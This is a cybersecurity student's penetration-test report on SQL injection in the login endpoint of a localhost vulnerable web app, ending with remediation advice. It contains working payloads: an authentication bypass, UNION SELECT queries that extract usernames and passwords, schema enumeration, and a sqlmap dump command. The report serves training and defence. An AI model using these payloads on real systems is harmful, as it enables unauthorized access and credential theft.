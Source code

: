 # FUTURE_CS_01
FUTURE_CS_01 
Web ApplicationSecurity
AssessmentSQL Injection Exploitation Date:  July 7,2025
Conducted by:  Safik Rahman 
1.Introduction
This report presents the findings and technical methodology employed during a webapplication security assessment. The primary aim was to uncover vulnerabilities such asSQL Injection, Cross-Site Scripting (XSS), and authentication flaws in a simulatedenvironment. This document specifically highlights the successful discovery andexploitation of a SQL Injection flaw.
2. ObjectiveThe objective was to assess the application's resilience against real-world attack vectorsby performing ethical penetration testing. Special focus was given to detecting SQLInjection vulnerabilities that could potentially allow unauthorized data access withoutaffecting system integrity.
3. Tools and Environment•Operating System:  Kali Linux•Manual Tools:  Web browser, Custom SQL payloads•Automated Tools:  sqlmap•Target Application:  Localhost-hosted vulnerable web application
4. Vulnerability Identified: SQL Injection
4.1 Entry Point:• HTTP Method:  POST• Endpoint:/rest/user/login• Vulnerable Parameters:email, password
4.2 Initial PayloadUsed:'OR'1'='1'--This payload bypassed authentication by manipulating the SQL logic, granting accesswithout valid credentials.
5. Exploitation Process
Step 1: Column EnumerationPayloads using theORDER BY clause were tested to determine the number of columnsinvolved in the SQLquery:' ORDER BY 1 -- ' ORDER BY 2 --
Step 2: Union Injection Confirmation' UNION SELECT 'test', 'output' --This confirmed the number of injectable and displayable columns.
Step 3: Data ExtractionOnce confirmed, real user data was retrieved using:' UNION SELECT username, password FROM users --
Step 4: Schema DiscoveryIf table/column names are unknown, the following was used:' UNION SELECT table_name, null FROM information_schema.tables --' UNION SELECT column_name, null FROM information_schema.columns WHEREtable_name='users' --
Step 5: Automated Extraction with sqlmapsqlmap -u "http://localhost:3000/rest/user/login"  \--data="email=test&password=test" \--dump --batchSqlmap was usedto automate and validatethe exploitation and data retrieval.
7. RecommendationsTo remediate the SQL Injection vulnerability, the following countermeasures are advised:
• Parameterized Queries:  Replace dynamic SQL queries with prepared statements.
• Input Validation:  Enforce strong server-side input sanitization using allowlists.
• Use ORM Frameworks:  Implement Object-Relational Mapping to abstract SQLlogic.• Web Application Firewall (WAF):  Deploy WAF to detect and block maliciousinputs.• Database Privilege Management:  Limit database user permissions to the bareminimum required.
8. ConclusionThis security assessment revealed a critical SQL Injection flaw in the login endpoint.Successful exploitation demonstrated the potential for unauthorized access and databasecompromise. All testing was performed ethically in a controlled environment, with the goalof improving the application's overall security posture.
Report Prepared By:Safik Rahman
Cybersecurity Student
Date:  July 7, 2025
